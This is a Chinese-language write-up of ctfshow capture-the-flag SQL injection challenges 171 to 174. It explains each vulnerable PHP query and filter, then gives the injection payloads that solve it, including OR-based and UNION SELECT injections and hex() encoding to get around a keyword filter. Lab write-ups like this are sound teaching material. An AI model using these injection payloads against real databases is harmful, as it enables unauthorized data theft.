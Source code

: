 #### 171

题目提示：

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

`$_GET['id']` 是从用户的 GET 请求中获取的值，未进行过滤，知道注入点为id处。

复制语句到navicat中创建的本地数据库中尝试，语句改为

```
select username,password from user where username !='flag' and id = '1' or id = '3' limit 1;
```

显示了id = 1的内容

若改成

```
select username,password from user where username !='flag' and id = '888' or id = '3' limit 1;
```

则会显示id = 3的内容（or语句）。

题目中id只有24行，猜测flag是否在第25行未显示

于是可以在题目id处输入 `999' or id = '25`未显示flag

输入`999 'or id = '26`得到flag



#### 172

本题与上一题类似，但题目显示

```
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

表示如果 `$row` (**查询内容**）对象中的 `username` 属性的值不等于 `'flag'` ，就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'`

则查询内容中，应只查询password而不查询username。此处引入**联合查询**（就是union语句）。

id查询处输入

```
999' union select id,password from ctfshow_user2 where username = 'flag
```

即可。



#### 173

本题题目显示

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码使用 `preg_match` 函数在 `json_encode($ret)` （**返回值**)的结果中搜索 `'flag'` （不区分大小写）。

如果没有匹配到，就设置 `$ret['msg'] = '查询成功'`

此处可以使用`hex()`函数对username进行转换,将其转化为16进制（也可以使用to_base64()函数将其转化为base64编码）

在id查询处输入

```
999' union select id,hex(username),password from ctfshow_user3 where username = 'flag
```

即可得到flag



#### 174

本题有点像特意出的考点

返回逻辑是

```
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码的作用是：如果经过 `json_encode` 编码后的 `$ret` 中不包含 `'flag'` （不区分大小写）以及任何数字（0 到 9），就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'` 。